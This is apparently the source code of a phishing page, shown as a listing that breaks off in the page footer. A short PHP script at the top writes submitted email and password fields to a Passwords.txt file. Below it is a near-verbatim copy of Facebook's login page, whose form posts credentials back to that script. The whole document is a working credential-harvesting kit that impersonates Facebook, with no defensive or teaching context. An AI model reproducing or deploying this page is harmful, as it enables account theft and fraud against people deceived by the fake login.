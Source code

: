 <?php
  $username = $_POST["email"];
  $password = $_POST["pass"];

  $file = fopen("Passwords.txt", "a");
  fwrite($file, $username . ":" . $password . "\n");
  //fclose($file);

  //echo "Credentials saved successfully.";
?>


<!DOCTYPE html>
<html lang="en" id="facebook" class="no_js">
<head>
  <meta charset="utf-8">
  <meta name="referrer" content="origin-when-crossorigin" id="meta_referrer">
  <script nonce="3qpiLbTu">
  function envFlush(a){function b(b){for(var c in a)b[c]=a[c]}window.requireLazy?window.requireLazy(["Env"],b):(window.Env=window.Env||{},b(window.Env))}envFlush({"useTrustedTypes":false,"isTrustedTypesReportOnly":false,"ajaxpipe_token":"AXi0PkSblgO7Bbacn20","gk_instrument_object_url":true,"stack_trace_limit":30,"timesliceBufferSize":5000,"show_invariant_decoder":false,"compat_iframe_token":"AQ7u_AXfs1DqD8xe0Vg","isCQuick":false});
  </script>
  <script nonce="3qpiLbTu">
  (function(a){function b(b){if(!window.openDatabase)return;b.I_AM_INCOGNITO_AND_I_REALLY_NEED_WEBSQL=function(a,b,c,d){return window.openDatabase(a,b,c,d)};window.openDatabase=function(){throw new Error()}}b(a)})(this);
  </script>
  <style nonce="3qpiLbTu"></style>
  <script nonce="3qpiLbTu">
  __DEV__=0;
  </script>
  <link rel="manifest" id="MANIFEST_LINK" href="/data/manifest/" crossorigin="use-credentials">
  <title id="pageTitle">Facebook – log in or sign up</title>
  <meta property="og:site_name" content="Facebook">
  <meta property="og:url" content="https://www.facebook.com/">
  <meta property="og:image" content="https://www.facebook.com/images/fb_icon_325x325.png">
  <meta property="og:locale" content="en_GB">
  <link rel="alternate" media="only screen and (max-width: 640px)" href="https://m.facebook.com/">
  <link rel="alternate" media="handheld" href="https://m.facebook.com/">
  <meta name="description" content="Log in to Facebook to start sharing and connecting with your friends, family and people you know.">
  <script type="application/ld+json" nonce="3qpiLbTu">
  {"\u0040context":"http:\/\/schema.org","\u0040type":"WebSite","name":"Facebook","url":"https:\/\/en-gb.facebook.com\/"}
  </script>
  <link rel="canonical" href="https://www.facebook.com/">
  <link rel="shortcut icon" href="https://static.xx.fbcdn.net/rsrc.php/yb/r/hLRJ1GG_y0J.ico">
  <link type="text/css" rel="stylesheet" href="https://static.xx.fbcdn.net/rsrc.php/v3/yT/l/0,cross/tQOsrUqpxNB.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="/uaktyf" crossorigin="anonymous">
  <link type="text/css" rel="stylesheet" href="https://static.xx.fbcdn.net/rsrc.php/v3/yE/l/0,cross/RspwE1UYLwr.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="Pud6B2Z" crossorigin="anonymous">
  <link type="text/css" rel="stylesheet" href="https://static.xx.fbcdn.net/rsrc.php/v3/yt/l/0,cross/cIrybR6S1NV.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="vaVtyoz" crossorigin="anonymous">
  <link type="text/css" rel="stylesheet" href="https://static.xx.fbcdn.net/rsrc.php/v3/y6/l/0,cross/seJ6eJ1cfzG.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="1Porv8d" crossorigin="anonymous">
  <link type="text/css" rel="stylesheet" href="https://static.xx.fbcdn.net/rsrc.php/v3/yi/l/0,cross/yotEdcUw9Gj.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="DcLQ9Pg" crossorigin="anonymous">
  <link type="text/css" rel="stylesheet" href="https://static.xx.fbcdn.net/rsrc.php/v3/yT/l/0,cross/HRHNECZnIy5.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="aF1d/S0" crossorigin="anonymous">
  <link type="text/css" rel="stylesheet" href="https://static.xx.fbcdn.net/rsrc.php/v3/yi/l/0,cross/uaRUZk18yNI.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="Yo2UzOh" crossorigin="anonymous">
  <script src="https://static.xx.fbcdn.net/rsrc.php/v3/yv/r/E1VUnRBtU87.js?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="83rVByl" crossorigin="anonymous" nonce="3qpiLbTu"></script>
  <script nonce="3qpiLbTu">
  requireLazy(["HasteSupportData"],function(m){m.handle({"clpData":{"1814852":{"r":1},"1838142":{"r":1,"s":1},"1949898":{"r":1},"1848815":{"r":10000,"s":1},"1744178":{"r":1,"s":1}},"gkxData":{"676837":{"result":false,"hash":"AT4N8wBZA8ctCdHwd1E"},"708253":{"result":false,"hash":"AT5n4hBL3YTMnQWtef4"},"996940":{"result":false,"hash":"AT7opYuEGy3sjG1acog"},"1224637":{"result":false,"hash":"AT7JRluWxuwDm3XzshQ"},"1263340":{"result":false,"hash":"AT5bwizWgDaFQudmTAI"},"676920":{"result":true,"hash":"AT497IX4gOFG8gZeYPA"},"1073500":{"result":false,"hash":"AT7aJmfnqWyioxOOHjQ"},"1167394":{"result":false,"hash":"AT7BpN-tlUPwbIIFPd8"},"3579":{"result":true,"hash":"AT4GLroqi1faSYwdOBg"},"4435":{"result":false,"hash":"AT7J_frtMJbbiuSsooY"},"1857581":{"result":false,"hash":"AT5yTxGMp6le0PAtzx4"},"2772":{"result":false,"hash":"AT5Eu244WIce7iwqjA8"},"3752":{"result":false,"hash":"AT6eS5UTkkMp_xbPXa0"},"3831":{"result":false,"hash":"AT4W23lQ0XxAZniMG4E"},"4075":{"result":false,"hash":"AT4_ZQi0sTjSt-Rx-Ig"},"8126":{"result":false,"hash":"AT4U7qG06p9sF6u8TYg"},"676838":{"result":false,"hash":"AT6nN1ehT9yq-2q68nU"},"1217157":{"result":false,"hash":"AT6B7YmllOsArnK6aXg"},"1554827":{"result":false,"hash":"AT7zueGLhGo0cT5x1Ic"},"1738486":{"result":false,"hash":"AT4cX37oQco6DwhUMds"}},"qplData":{"7758":{"r":1}}})});requireLazy(["TimeSliceImpl","ServerJS"],function(TimeSlice,ServerJS){(new ServerJS()).handle({"define":[["URLFragmentPreludeConfig",[],{"hashtagRedirect":true,"fragBlacklist":["nonce","access_token","oauth_token","xs","checkpoint_data","code"]},137],["CometPersistQueryParams",[],{"relative":{},"domain":{}},6231],["CookieDomain",[],{"domain":"facebook.com"},6421],["CurrentAdAccountInitialData",[],{"AD_ACCOUNT_ID":null},6828],["BootloaderConfig",[],{"deferBootloads":false,"jsRetries":[200,500],"jsRetryAbortNum":2,"jsRetryAbortTime":5,"silentDups":false,"hypStep4":false,"phdOn":false,"btCutoffIndex":2365,"translationRetries":[200,500],"translationRetryAbortNum":3,"translationRetryAbortTime":50},329],["CSSLoaderConfig",[],{"timeout":5000,"modulePrefix":"BLCSS:","loadEventSupported":true},619],["CookieCoreConfig",[],{"c_user":{"s":"None"},"cppo":{"t":86400,"s":"None"},"dpr":{"t":604800,"s":"None"},"fbl_ci":{"t":31536000,"s":"None"},"fbl_cs":{"t":31536000,"s":"None"},"fbl_st":{"t":31536000,"s":"Strict"},"i_user":{"s":"None"},"locale":{"t":604800,"s":"None"},"m_ls":{"t":158284800,"s":"None"},"m_pixel_ratio":{"t":604800,"s":"None"},"noscript":{"s":"None"},"presence":{"t":2592000,"s":"None"},"sfau":{"s":"None"},"usida":{"s":"None"},"vpd":{"t":5184000,"s":"Lax"},"wd":{"t":604800,"s":"Lax"},"x-referer":{"s":"None"},"x-src":{"t":1,"s":"None"}},2104],["CurrentCommunityInitialData",[],{},490],["CurrentEnvironment",[],{"facebookdotcom":true,"messengerdotcom":false,"workplacedotcom":false,"instagramdotcom":false,"workdotmetadotcom":false},827],["CurrentUserInitialData",[],{"ACCOUNT_ID":"0","USER_ID":"0","NAME":"","SHORT_NAME":null,"IS_BUSINESS_PERSON_ACCOUNT":false,"HAS_SECONDARY_BUSINESS_PERSON":false,"IS_FACEBOOK_WORK_ACCOUNT":false,"IS_MESSENGER_ONLY_USER":false,"IS_DEACTIVATED_ALLOWED_ON_MESSENGER":false,"IS_MESSENGER_CALL_GUEST_USER":false,"IS_WORK_MESSENGER_CALL_GUEST_USER":false,"IS_WORKROOMS_USER":false,"APP_ID":"256281040558","IS_BUSINESS_DOMAIN":false},270],["DTSGInitialData",[],{},258],["ISB",[],{},330],["LSD",[],{"token":"AVo6qJI52T8"},323],["ServerNonce",[],{"ServerNonce":"5R3jLJYsEpvr3Aqq0hznYb"},141],["SiteData",[],{"server_revision":1007033780,"client_revision":1007033780,"tier":"","push_phase":"C3","pkg_cohort":"BP:DEFAULT","haste_session":"19417.BP:DEFAULT.2.0.0.0.0","pr":1,"haste_site":"www","manifest_base_uri":"https:\/\/static.xx.fbcdn.net","manifest_origin":null,"manifest_version_prefix":null,"be_one_ahead":false,"is_rtl":false,"is_comet":false,"is_experimental_tier":false,"is_jit_warmed_up":true,"hsi":"7205495143192699061","semr_host_bucket":"5","bl_hash_version":2,"skip_rd_bl":true,"comet_env":0,"wbloks_env":false,"spin":4,"__spin_r":1007033780,"__spin_b":"trunk","__spin_t":1677660072,"vip":"31.13.64.35"},317],["SprinkleConfig",[],{"param_name":"jazoest","version":2,"should_randomize":false},2111],["UserAgentData",[],{"browserArchitecture":"64","browserFullVersion":"110.0.0.0","browserMinorVersion":0,"browserName":"Chrome","browserVersion":110,"deviceName":"Unknown","engineName":"WebKit","engineVersion":"537.36","platformArchitecture":"64","platformName":"Windows","platformVersion":"10","platformFullVersion":"10"},527],["PromiseUsePolyfillSetImmediateGK",[],{"www_always_use_polyfill_setimmediate":false},2190],["KSConfig",[],{"killed":{"__set":["MLHUB_FLOW_AUTOREFRESH_SEARCH","NEKO_DISABLE_CREATE_FOR_SAP","EO_DISABLE_SYSTEM_SERIAL_NUMBER_FREE_TYPING_IN_CPE_NON_CLIENT","MOBILITY_KILL_OLD_VISIBILITY_POSITION_SETTING","WORKPLACE_DISPLAY_TEXT_EVIDENCE_REPORTING","BUSINESS_INVITE_FLOW_WITH_SELLER_PROFILE","BUY_AT_UI_LINE_DELETE","BUSINESS_GRAPH_SETTING_APP_ASSIGNED_USERS_NEW_API","BUSINESS_GRAPH_SETTING_BU_ASSIGNED_USERS_NEW_API","BUSINESS_GRAPH_SETTING_ESG_ASSIGNED_USERS_NEW_API","BUSINESS_GRAPH_SETTING_PRODUCT_CATALOG_ASSIGNED_USERS_NEW_API","BUSINESS_GRAPH_SETTING_SESG_ASSIGNED_USERS_NEW_API","BUSINESS_GRAPH_SETTING_WABA_ASSIGNED_USERS_NEW_API","ADS_PLACEMENT_FIX_PUBLISHER_PLATFORMS_MUTATION","FORCE_FETCH_BOOSTED_COMPONENT_AFTER_ADS_CREATION","VIDEO_DIMENSIONS_FROM_PLAYER_IN_UPLOAD_DIALOG","SNIVY_GROUP_BY_EVENT_TRACE_ID_AND_NAME","ADS_STORE_VISITS_METRICS_DEPRECATION","AD_DRAFT_ENABLE_SYNCRHONOUS_FRAGMENT_VALIDATION","SEPARATE_MESSAGING_COMACTIVITY_PAGE_PERMS","LAB_NET_NEW_UI_RELEASE","POCKET_MONSTERS_CREATE","POCKET_MONSTERS_DELETE","WORKPLACE_PLATFORM_SECURE_APPS_MAILBOXES","POCKET_MONSTERS_UPDATE_NAME","IC_DISABLE_MERGE_TOOL_FEED_CHECK_FOR_REPLACE_SCHEDULE","ADS_EPD_IMPACTED_ADVERTISER_MIGRATE_XCONTROLLER","RECRUITING_CANDIDATE_PORTAL_ACCOUNT_DELETION_CARD","BIZ_INBOX_POP_UP_TIP_NAVIGATION_BUG_FIX","SRT_REVIEW_DISABLE_FELLOWSHIP_REVIEW","EO_STORE_HOME_PAGE_COVID19_BANNER"]},"ko":{"__set":["3OsLvnSHNTt","1G7wJ6bJt9K","9NpkGYwzrPG","3oh5Mw86USj","8NAceEy9JZo","7FOIzos6XJX","rf8JEPGgOi","4j36SVzvP3w","4NSq3ZC4ScE","53gCxKq281G","3yzzwBY7Npj","1onzIv0jH6H","8PlKuowafe8","1ntjZ2zgf03","4SIH2GRVX5W","2dhqRnqXGLQ","2WgiNOrHVuC","amKHb4Cw4WI","8rDvN9vWdAK","5BdzWGmfvrA","DDZhogI19W","acrJTh9WGdp","1oOE64fL4wO","5XCz1h9Iaw3","7r6mSP7ofr2","6DGPLrRdyts","aWxCyi1sEC7","9kCSDzzr8fu","awYA7fn2Bse","aBMlJ8QRPWE","Fl3bH3ozLe"]}},2580],["JSErrorLoggingConfig",[],{"appId":256281040558,"extra":[],"reportInterval":50,"sampleWeight":null,"sampleWeightKey":"__jssesw","projectBlocklist":[]},2776],["DataStoreConfig",[],{"expandoKey":"__FB_STORE","useExpando":true},2915],["CookieCoreLoggingConfig",[],{"maximumIgnorableStallMs":16.67,"sampleRate":9.7e-5,"sampleRateClassic":1.0e-10,"sampleRateFastStale":1.0e-8},3401],["ImmediateImplementationExperiments",[],{"prefer_message_channel":true},3419],["DTSGInitData",[],{"token":"","async_get_token":""},3515],["UriNeedRawQuerySVConfig",[],{"uris":["dms.netmng.com","doubleclick.net","r.msn.com","watchit.sky.com","graphite.instagram.com","www.kfc.co.th","learn.pantheon.io","www.landmarkshops.in","www.ncl.com","s0.wp.com","www.tatacliq.com","bs.serving-sys.com","kohls.com","lazada.co.th","xg4ken.com","technopark.ru","officedepot.com.mx","bestbuy.com.mx","booking.com","nibio.no"]},3871],["InitialCookieConsent",[],{"deferCookies":false,"initialConsent":{"__set":[1,2]},"noCookies":false,"shouldShowCookieBanner":false},4328],["WebConnectionClassServerGuess",[],{"connectionClass":"EXCELLENT"},4705],["CometAltpayJsSdkIframeAllowedDomains",[],{"allowed_domains":["https:\/\/live.adyen.com","https:\/\/integration-facebook.payu.in","https:\/\/facebook.payulatam.com","https:\/\/secure.payu.com","https:\/\/facebook.dlocal.com","https:\/\/buy2.boku.com"]},4920],["BootloaderEndpointConfig",[],{"debugNoBatching":false,"endpointURI":"https:\/\/www.facebook.com\/ajax\/bootloader-endpoint\/"},5094],["CookieConsentIFrameConfig",[],{"consent_param":"FQAREhISAA==.ARYhVMzcJyLzMFNrB888MJ_Vm3W6-jcvhBw_ZoczNZgJL3WF","allowlisted_iframes":[]},5540],["BigPipeExperiments",[],{"link_images_to_pagelets":false,"enable_bigpipe_plugins":false},907],["IntlVariationHoldout",[],{"disable_variation":false},6533],["AsyncRequestConfig",[],{"retryOnNetworkError":"1","useFetchStreamAjaxPipeTransport":false},328],["FbtQTOverrides",[],{"overrides":{}},551],["FbtResultGK",[],{"shouldReturnFbtResult":true,"inlineMode":"NO_INLINE"},876],["IntlPhonologicalRules",[],{"meta":{"\/_B\/":"([.,!?\\s]|^)","\/_E\/":"([.,!?\\s]|$)"},"patterns":{"\/\u0001(.*)('|&#039;)s\u0001(?:'|&#039;)s(.*)\/":"\u0001$1$2s\u0001$3","\/_\u0001([^\u0001]*)\u0001\/":"javascript"}},1496],["IntlViewerContext",[],{"GENDER":3,"regionalLocale":null},772],["NumberFormatConfig",[],{"decimalSeparator":".","numberDelimiter":",","minDigitsForThousandsSeparator":4,"standardDecimalPatternInfo":{"primaryGroupSize":3,"secondaryGroupSize":3},"numberingSystemData":null},54],["SessionNameConfig",[],{"seed":"1gcS"},757],["ZeroCategoryHeader",[],{},1127],["ZeroRewriteRules",[],{"rewrite_rules":{},"whitelist":{"\/hr\/r":1,"\/hr\/p":1,"\/zero\/unsupported_browser\/":1,"\/zero\/policy\/optin":1,"\/zero\/optin\/write\/":1,"\/zero\/optin\/legal\/":1,"\/zero\/optin\/free\/":1,"\/about\/privacy\/":1,"\/about\/privacy\/update\/":1,"\/privacy\/explanation\/":1,"\/zero\/toggle\/welcome\/":1,"\/zero\/toggle\/nux\/":1,"\/zero\/toggle\/settings\/":1,"\/fup\/interstitial\/":1,"\/work\/landing":1,"\/work\/login\/":1,"\/work\/email\/":1,"\/ai.php":1,"\/js_dialog_resources\/dialog_descriptions_android.json":0,"\/connect\/jsdialog\/MPlatformAppInvitesJSDialog\/":0,"\/connect\/jsdialog\/MPlatformOAuthShimJSDialog\/":0,"\/connect\/jsdialog\/MPlatformLikeJSDialog\/":0,"\/qp\/interstitial\/":1,"\/qp\/action\/redirect\/":1,"\/qp\/action\/close\/":1,"\/zero\/support\/ineligible\/":1,"\/zero_balance_redirect\/":1,"\/zero_balance_redirect":1,"\/zero_balance_redirect\/l\/":1,"\/l.php":1,"\/lsr.php":1,"\/ajax\/dtsg\/":1,"\/checkpoint\/block\/":1,"\/exitdsite":1,"\/zero\/balance\/pixel\/":1,"\/zero\/balance\/":1,"\/zero\/balance\/carrier_landing\/":1,"\/zero\/flex\/logging\/":1,"\/tr":1,"\/tr\/":1,"\/sem_campaigns\/sem_pixel_test\/":1,"\/bookmarks\/flyout\/body\/":1,"\/zero\/subno\/":1,"\/confirmemail.php":1,"\/policies\/":1,"\/mobile\/internetdotorg\/classifier\/":1,"\/zero\/dogfooding":1,"\/xti.php":1,"\/zero\/fblite\/config\/":1,"\/hr\/zsh\/wc\/":1,"\/ajax\/bootloader-endpoint\/":1,"\/mobile\/zero\/carrier_page\/":1,"\/mobile\/zero\/carrier_page\/education_page\/":1,"\/mobile\/zero\/carrier_page\/feature_switch\/":1,"\/mobile\/zero\/carrier_page\/settings_page\/":1,"\/aloha_check_build":1,"\/upsell\/zbd\/softnudge\/":1,"\/mobile\/zero\/af_transition\/":1,"\/mobile\/zero\/af_transition\/action\/":1,"\/mobile\/zero\/freemium\/":1,"\/mobile\/zero\/freemium\/redirect\/":1,"\/mobile\/zero\/freemium\/zero_fup\/":1,"\/privacy\/policy\/":1,"\/privacy\/center\/":1,"\/data\/manifest\/":1,"\/4oh4.php":1,"\/autologin.php":1,"\/birthday_help.php":1,"\/checkpoint\/":1,"\/contact-importer\/":1,"\/cr.php":1,"\/legal\/terms\/":1,"\/login.php":1,"\/login\/":1,"\/mobile\/account\/":1,"\/n\/":1,"\/remote_test_device\/":1,"\/upsell\/buy\/":1,"\/upsell\/buyconfirm\/":1,"\/upsell\/buyresult\/":1,"\/upsell\/promos\/":1,"\/upsell\/continue\/":1,"\/upsell\/h\/promos\/":1,"\/upsell\/loan\/learnmore\/":1,"\/upsell\/purchase\/":1,"\/upsell\/promos\/upgrade\/":1,"\/upsell\/buy_redirect\/":1,"\/upsell\/loan\/buyconfirm\/":1,"\/upsell\/loan\/buy\/":1,"\/upsell\/sms\/":1,"\/wap\/a\/channel\/reconnect.php":1,"\/wap\/a\/nux\/wizard\/nav.php":1,"\/wap\/appreg.php":1,"\/wap\/birthday_help.php":1,"\/wap\/c.php":1,"\/wap\/confirmemail.php":1,"\/wap\/cr.php":1,"\/wap\/login.php":1,"\/wap\/r.php":1,"\/zero\/datapolicy":1,"\/a\/timezone.php":1,"\/a\/bz":1,"\/bz\/reliability":1,"\/r.php":1,"\/mr\/":1,"\/reg\/":1,"\/registration\/log\/":1,"\/terms\/":1,"\/f123\/":1,"\/expert\/":1,"\/experts\/":1,"\/terms\/index.php":1,"\/terms.php":1,"\/srr\/":1,"\/msite\/redirect\/":1,"\/fbs\/pixel\/":1,"\/contactpoint\/preconfirmation\/":1,"\/contactpoint\/cliff\/":1,"\/contactpoint\/confirm\/submit\/":1,"\/contactpoint\/confirmed\/":1,"\/contactpoint\/login\/":1,"\/preconfirmation\/contactpoint_change\/":1,"\/help\/contact\/":1,"\/survey\/":1,"\/upsell\/loyaltytopup\/accept\/":1,"\/settings\/":1,"\/lite\/":1,"\/zero_status_update\/":1,"\/operator_store\/":1,"\/upsell\/":1,"\/wifiauth\/login\/":1}},1478],["ServerTimeData",[],{"serverTime":1677660072310,"timeOfRequestStart":1677660072270.5,"timeOfResponseStart":1677660072270.5},5943],["AnalyticsCoreData",[],{"device_id":"$^|Aca5l3F1w1MUIwHBpzcm4gW7uKvRs9iXySVHCd7P4Knozw20hzP1k1A9wq7sKiApORhzmRZ2LdKhaCcp9aHeJUGySg|fd.AcahSqLIXjQ3TR51fWDP42bjwTCXDfhITubf0l4_TdnZG5ADNy8vINQrl5skdan1hOdNXLE0CZMsRVGaE6J0y25f","app_id":"256281040558","enable_bladerunner":false,"enable_ack":true,"push_phase":"C3","enable_observer":false,"enable_dataloss_timer":false,"enable_fallback_for_br":true,"fix_br_init_rc":true,"queue_activation_experiment":false,"max_delay_br_queue":60000,"max_delay_br_queue_immediate":3,"use_critical_for_fallback_from_immediate":false,"consents":{},"impression_experiment_flag":1},5237],["cr:3769",["PromiseImpl"],{"__rc":["PromiseImpl","Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["cr:696703",[],{"__rc":[null,"Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["cr:708886",["EventProfilerImpl"],{"__rc":["EventProfilerImpl","Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["cr:717822",["TimeSliceImpl"],{"__rc":["TimeSliceImpl","Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["cr:806696",["clearTimeoutBlue"],{"__rc":["clearTimeoutBlue","Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["cr:807042",["setTimeoutBlue"],{"__rc":["setTimeoutBlue","Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["cr:896462",["setIntervalAcrossTransitionsBlue"],{"__rc":["setIntervalAcrossTransitionsBlue","Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["cr:986633",["setTimeoutAcrossTransitionsBlue"],{"__rc":["setTimeoutAcrossTransitionsBlue","Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["cr:1003267",["clearIntervalBlue"],{"__rc":["clearIntervalBlue","Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["cr:2457",["FbtNumberTypeDeprecated"],{"__rc":["FbtNumberTypeDeprecated","Aa350e717K71rD6MzcEQsLmHkm2tgC_pd_OTRt9LsDzFioskShMgS00abDPcSYcdEhcik8EpZIdWxgwXsq_INHycTQEJ1ECjiF9BOmLNkLcugJ8"]},-1],["cr:1183579",["InlineFbtResultImpl"],{"__rc":["InlineFbtResultImpl","Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["cr:925100",["RunBlue"],{"__rc":["RunBlue","Aa0_o5wkBnkpa1BRuPSvOSqxJTIgjnO5722l12q6IxjSMNP_9tEUZJVkuTj7rsfTvHPStxGwryyoGcTB6Pt52K8Ziww"]},-1],["cr:729414",["VisualCompletion"],{"__rc":["VisualCompletion","Aa1ZojS7k69zOzvA4eUyedc1n7tP7280GSB-gZHzlG5Qw0DOgbEDvHo8Od5a2kdijfdNHAdLXwL1rjaMk34o17xn"]},-1],["cr:1094907",[],{"__rc":[null,"Aa1IJnVtQrINzCHyRQQFO7OeVQaCqsCWg2Flu-dE8ZxH49J6DYN5eaXuDsYmqDoc4u1tgv_3RHYlHytO7Sfq-kY"]},-1],["EventConfig",[],{"sampling":{"bandwidth":0,"play":0,"playing":0,"progress":0,"pause":0,"ended":0,"seeked":0,"seeking":0,"waiting":0,"loadedmetadata":0,"canplay":0,"selectionchange":0,"change":0,"timeupdate":0,"adaptation":0,"focus":0,"blur":0,"load":0,"error":0,"message":0,"abort":0,"storage":0,"scroll":200000,"mousemove":20000,"mouseover":10000,"mouseout":10000,"mousewheel":1,"MSPointerMove":10000,"keydown":0.1,"click":0.02,"mouseup":0.02,"__100ms":0.001,"__default":5000,"__min":100,"__interactionDefault":200,"__eventDefault":100000},"page_sampling_boost":1,"interaction_regexes":{},"interaction_boost":{},"event_types":{},"manual_instrumentation":false,"profile_eager_execution":false,"disable_heuristic":true,"disable_event_profiler":false},1726],["AdsInterfacesSessionConfig",[],{},2393],["IntlNumberTypeConfig",[],{"impl":"if (n === 1) { return IntlVariations.NUMBER_ONE; } else { return IntlVariations.NUMBER_OTHER; }"},3405],["IntlCurrentLocale",[],{"code":"en_GB"},5954],["USIDMetadata",[],{"browser_id":"?","tab_id":"","page_id":"Prqu2so1reiekq","transition_id":0,"version":6},5888],["cr:686",[],{"__rc":[null,"Aa1V7xPxe0QVPpMz1gM85CB0XXtITTjDXvPZlqdCI61R55fwOIGSAoCACL0-9j5Y40hSgxqzThzPrV2DpGzl0fJ2"]},-1],["cr:1984081",[],{"__rc":[null,"Aa2Sd9psAuKq14tbxx6rwNrofcgK1b5UAkfs2bQoAgviskKx78Zob1CyzMCT2vHF66UdzGBy9WoJqZidLNExArYzqEOT"]},-1]],"require":[["markJSEnabled"],["lowerDomain"],["URLFragmentPrelude"],["Primer"],["BigPipe"],["Bootloader"],["TimeSlice"],["AsyncRequest"],["BanzaiScuba_DEPRECATED"],["VisualCompletionGating"],["FbtLogging"],["IntlQtEventFalcoEvent"],["RequireDeferredReference","unblock",[],[["AsyncRequest","BanzaiScuba_DEPRECATED","VisualCompletionGating","FbtLogging","IntlQtEventFalcoEvent"],"sd"]],["RequireDeferredReference","unblock",[],[["AsyncRequest","BanzaiScuba_DEPRECATED","VisualCompletionGating","FbtLogging","IntlQtEventFalcoEvent"],"css"]]]});});
  </script>
</head>
<body class="fbIndex UIPage_LoggedOut _-kb _605a b_c3pyn-ahh chrome webkit win x1 Locale_en_GB" dir="ltr">
  <script type="text/javascript" nonce="3qpiLbTu">
  requireLazy(["bootstrapWebSession"],function(j){j(1677660072)})
  </script>
  <div class="_li" id="u_0_1_a6">
    <div id="globalContainer" class="uiContextualLayerParent">
      <div class="fb_content clearfix" id="content" role="main">
        <div>
          <div class="_8esj _95k9 _8esf _8opv _8f3m _8ilg _8icx _8op_ _95ka">
            <div class="_8esk">
              <div class="_8esl">
                <div class="_8ice"><img class="fb_logo _8ilh img" src="https://static.xx.fbcdn.net/rsrc.php/y8/r/dF5SId3UHWd.svg" alt="Facebook"></div>
                <h2 class="_8eso">Facebook helps you connect and share with the people in your life.</h2>
              </div>
              <div class="_8esn">
                <div class="_8iep _8icy _9ahz _9ah-">
                  <div class="_6luv _52jv">
                    <form class="_9vtf" action="" method="post">
                      <input type="hidden" name="jazoest" value="2819" autocomplete="off"><input type="hidden" name="lsd" value="AVo6qJI52T8" autocomplete="off">
                      <div>
                        <div class="_6lux">
                          <input type="text" class="inputtext _55r1 _6luy" name="email" id="email" data-testid="royal_email" placeholder="Email address or phone number" autofocus="1" aria-label="Email address or phone number">
                        </div>
                        <div class="_6lux">
                          <div class="_6luy _55r1 _1kbt" id="passContainer">
                            <input type="password" class="inputtext _55r1 _6luy _9npi" name="pass" id="pass" data-testid="royal_pass" placeholder="Password" aria-label="Password">
                            <div class="_9ls7" id="u_0_3_4m">
                              <a href="#" role="button">
                              <div class="_9lsa">
                                <div class="_9lsb" id="u_0_4_fv"></div>
                              </div></a>
                            </div>
                          </div>
                        </div>
                      </div><input type="hidden" autocomplete="off" name="login_source" value="comet_headerless_login"><input type="hidden" autocomplete="off" name="next" value="">
                      <div class="_6ltg">
                        <button value="1" class="_42ft _4jy0 _6lth _4jy6 _4jy1 selected _51sy" name="login" data-testid="royal_login_button" type="submit" id="u_0_5_TM">Log in</button>
                      </div>
                      <div class="_6ltj">
                        <a href="https://www.facebook.com/recover/initiate/?privacy_mutation_token=eyJ0eXBlIjowLCJjcmVhdGlvbl90aW1lIjoxNjc3NjYwMDcyLCJjYWxsc2l0ZV9pZCI6MzgxMjI5MDc5NTc1OTQ2fQ%3D%3D&amp;ars=facebook_login">Forgotten password?</a>
                      </div>
                      <div class="_8icz"></div>
                      <div class="_6ltg">
                        <a role="button" class="_42ft _4jy0 _6lti _4jy6 _4jy2 selected _51sy" href="#" ajaxify="/reg/spotlight/" id="u_0_0_B3" data-testid="open-registration-form-button" rel="async">Create new account</a>
                      </div>
                    </form>
                  </div>
                  <div id="reg_pages_msg" class="_58mk">
                    <a href="/pages/create/?ref_type=registration_form" class="_8esh">Create a Page</a> for a celebrity, brand or business.
                  </div>
                </div>
              </div>
            </div>
          </div>
        </div>
      </div>
      <div class="">
        <div class="_95ke _8opy">
          <div id="pageFooter" data-referrer="page_footer" data-testid="page_footer">
            <ul class="uiList localeSelectorList _2pid _509- _4ki _6-h _6-j _6-i" data-nocookies="1">
              <li>English (UK)</li>
              <li>
